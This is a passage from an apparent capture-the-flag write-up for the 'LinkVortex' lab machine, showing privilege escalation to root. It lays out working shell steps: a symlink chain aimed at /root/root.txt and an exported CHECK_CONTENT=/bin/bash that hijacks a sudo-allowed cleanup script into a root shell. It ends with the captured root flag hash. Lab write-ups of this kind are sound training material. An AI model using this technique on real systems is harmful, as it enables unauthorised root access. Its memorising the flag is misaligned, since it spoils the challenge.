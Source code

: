 ```c
bob@linkvortex:/tmp$ ln -s /root/root.txt foobar
```

Then we `linked` our `proxy file` with an actual `.png file`.

```c
bob@linkvortex:/tmp$ ln -s foobar foobar.png
```

```c
bob@linkvortex:/tmp$ ls -la
total 84
drwxrwxrwt 12 root root 36864 Dec  8 10:26 .
drwxr-xr-x 18 root root  4096 Nov 30 10:07 ..
drwxrwxrwt  2 root root  4096 Dec  8 09:59 .ICE-unix
drwxrwxrwt  2 root root  4096 Dec  8 09:59 .Test-unix
drwxrwxrwt  2 root root  4096 Dec  8 09:59 .X11-unix
drwxrwxrwt  2 root root  4096 Dec  8 09:59 .XIM-unix
drwxrwxrwt  2 root root  4096 Dec  8 09:59 .font-unix
lrwxrwxrwx  1 bob  bob     14 Dec  8 10:26 foobar -> /root/root.txt
lrwxrwxrwx  1 bob  bob      6 Dec  8 10:26 foobar.png -> foobar
drwx------  3 root root  4096 Dec  8 09:59 systemd-private-f143386770d049ca926b8ad1c4c6b692-apache2.service-cUd3YT
drwx------  3 root root  4096 Dec  8 09:59 systemd-private-f143386770d049ca926b8ad1c4c6b692-systemd-logind.service-bHHa68
drwx------  3 root root  4096 Dec  8 09:59 systemd-private-f143386770d049ca926b8ad1c4c6b692-systemd-resolved.service-8uwneB
drwx------  3 root root  4096 Dec  8 09:59 systemd-private-f143386770d049ca926b8ad1c4c6b692-systemd-timesyncd.service-P4K8Dd
drwx------  2 root root  4096 Dec  8 10:00 vmware-root_494-826976239
```

Then we `exported` the `variable` and pointed it to `/bin/bash`.

```c
bob@linkvortex:/tmp$ export CHECK_CONTENT=/bin/bash
```

After executing the command using `sudo` we got a `shell` as `root` and obtained the `root.txt`.

```c
bob@linkvortex:/tmp$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
Link found [ foobar.png ] , moving it to quarantine
root@linkvortex:/tmp#
```

## root.txt

```c
root@linkvortex:~# cat root.txt 
612349e484254c2667e801dc567acaaa
```

## Post Exploitation
